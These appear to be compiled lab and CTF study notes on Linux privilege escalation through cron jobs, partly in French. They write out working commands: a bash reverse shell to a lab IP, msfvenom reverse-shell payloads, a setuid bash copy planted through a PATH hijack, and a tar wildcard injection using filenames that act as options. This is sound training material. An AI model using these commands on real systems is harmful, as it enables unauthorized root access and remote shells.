






Crontab
cat /etc/crontab
Cron jobs are used to run scripts or binaries at specific times. By default, they run with the privilege of their owners and not the current user. While properly configured cron jobs are not inherently vulnerable, they can provide a privilege escalation vector under some conditions.
The idea is quite simple; if there is a scheduled task that runs with root privileges and we can change the script that will be run, then our script will run with root privileges.
Cron job configurations are stored as crontabs (cron tables) to see the next time and date the task will run.
Each user on the system have their crontab file and can run specific tasks whether they are logged in or not. As you can expect, our goal will be to find a cron job set by root and have it run our script, ideally a shell.
Any user can read the file keeping system-wide cron jobs under
/etc/crontabWhile CTF machines can have cron jobs running every minute or every 5 minutes, you will more often see tasks that run daily, weekly or monthly in penetration test engagements.

{kind=link}
You can see the
backup.sh script was configured to run every minute. The content of the file shows a simple script that creates a backup of the prices.xls file.
{kind=link}
As our current user can access this script, we can easily modify it to create a reverse shell, hopefully with root privileges.
The script will use the tools available on the target system to launch a reverse shell.
Two points to note;
1. The command syntax will vary depending on the available tools. (e.g.
nc will probably not support the -e option you may have seen used in other cases)2. We should always prefer to start reverse shells, as we not want to compromise the system integrity during a real penetration testing engagement.
The file should look like this;

{kind=link}
We will now run a listener on our attacking machine to receive the incoming connection.

{kind=link}
Crontab is always worth checking as it can sometimes lead to easy privilege escalation vectors. The following scenario is not uncommon in companies that do not have a certain cyber security maturity level:
1. System administrators need to run a script at regular intervals.
2. They create a cron job to do this
3. After a while, the script becomes useless, and they delete it
4. They do not clean the relevant cron job
This change management issue leads to a potential exploit leveraging cron jobs.

{kind=link}
The example above shows a similar situation where the antivirus.sh script was deleted, but the cron job still exists.
If the full path of the script is not defined (as it was done for the backup.sh script), cron will refer to the paths listed under the PATH variable in the /etc/crontab file. In this case, we should be able to create a script named “antivirus.sh” under our user’s home folder and it should be run by the cron job.
The file on the target system should look familiar:

The incoming reverse shell connection has root privileges:

{kind=link}
In the odd event you find an existing script or task attached to a cron job, it is always worth spending time to understand the function of the script and how any tool is used within the context. For example, tar, 7z, rsync, etc., can be exploited using their wildcard feature.
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
En regardant cat /etc/crontab, on trouve un un autoscript.sh
on our host machine- let's create a payload for our cron exploit using msfvenom.
What is the flag to specify a payload in msfvenom?
Create a payload using:
"msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R"
What directory is the "autoscript.sh" under?
Lets replace the contents of the file with our payload using:
echo [MSFVENOM OUTPUT] > autoscript.sh
After copying the code into autoscript.sh file we wait for cron to execute the file, and start our netcat listener using: "nc -lvnp 8888" and wait for our shell to land!
After about 5 minutes, you should have a shell as root land in your netcat listening session! Congratulations!
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
cat /etc/crontabThere should be two cron jobs scheduled to run every minute. One runs overwrite.sh, the other runs /usr/local/bin/compress.sh.
Locate the full path of the overwrite.sh file:
locate overwrite.shNote that the file is world-writable:
ls -l /usr/local/bin/overwrite.shReplace the contents of the overwrite.sh file with the following after changing the IP address to that of your Kali box.
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener. If it doesn't recheck the permissions of the file, is anything missing?
nc -nvlp 4444--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
Crontab PATH
View the contents of the system-wide crontab:
cat /etc/crontabNote that the PATH variable starts with /home/user which is our user's home directory.
Create a file called overwrite.sh in your home directory with the following contents:
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
Make sure that the file is executable:
chmod +x /home/user/overwrite.shWait for the cron job to run (should not take longer than a minute). Run the /tmp/rootbash command with -p to gain a shell running with root privileges:
/tmp/rootbash -pRemember to remove the modified code, remove the /tmp/rootbash executable and exit out of the elevated shell before continuing as you will create this file again later in the room!
rm /tmp/rootbash
exit--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
Cronjobs Wildcard
View the contents of the other cron job script:
cat /usr/local/bin/compress.shNote that the tar command is being run with a wildcard (*) in your home directory.
Take a look at the GTFOBins page for tar. Note that tar has command line options that let you run other commands as part of a checkpoint feature.
Use msfvenom on your Kali box to generate a reverse shell ELF binary. Update the LHOST IP address accordingly:
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elfTransfer the shell.elf file to /home/user/ on the Debian VM (you can use scp or host the file on a webserver on your Kali box and use wget). Make sure the file is executable:
chmod +x /home/user/shell.elfCreate these two files in /home/user:
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elfWhen the tar command in the cron job runs, the wildcard (*) will expand to include these files. Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames.
Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.
nc -nvlp 4444Remember to exit out of the root shell and delete all the files you created to prevent the cron job from executing again:
rm /home/user/shell.elf
rm /home/user/--checkpoint=1
rm /home/user/--checkpoint-action=exec=shell.elf